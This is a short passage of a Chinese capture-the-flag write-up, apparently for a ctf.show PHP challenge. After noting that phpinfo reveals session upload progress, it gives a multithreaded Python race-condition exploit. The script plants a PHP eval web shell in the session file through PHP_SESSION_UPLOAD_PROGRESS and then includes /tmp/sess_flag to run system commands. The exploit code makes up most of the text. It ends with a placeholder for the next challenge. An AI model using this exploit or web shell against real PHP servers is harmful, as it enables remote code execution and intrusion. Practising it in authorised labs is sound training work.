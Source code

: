 试了几次不让我进了

/phpinfo.php

![](https://img-blog.csdnimg.cn/20210415233502335.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
发现可以session上传文件：

```python
# coding=utf-8
import io
import requests
import threading

sessid = 'flag'
data = {"cmd": "system('ls');"}
url = "http://7def2caa-fc1b-45ac-97a9-c35b7e95629d.challenge.ctf.show:8080/"

def write(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        resp = session.post(url,
                            data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php eval($_POST["cmd"]);?>'},
                            files={'file': ('tgao.txt', f)}, cookies={'PHPSESSID': sessid})


def read(session):
    while True:
        resp = session.post(url+'?f=/tmp/sess_' + sessid,
                            data=data)
        if 'tgao.txt' in resp.text:
            print(resp.text)
            event.clear()
        else:
            pass


if __name__ == "__main__":
    event = threading.Event()
    with requests.session() as session:
        for i in range(1, 30):
            threading.Thread(target=write, args=(session,)).start()

        for i in range(1, 30):
            threading.Thread(target=read, args=(session,)).start()
    event.set()
```

---
# 315
需要服务器，回头写
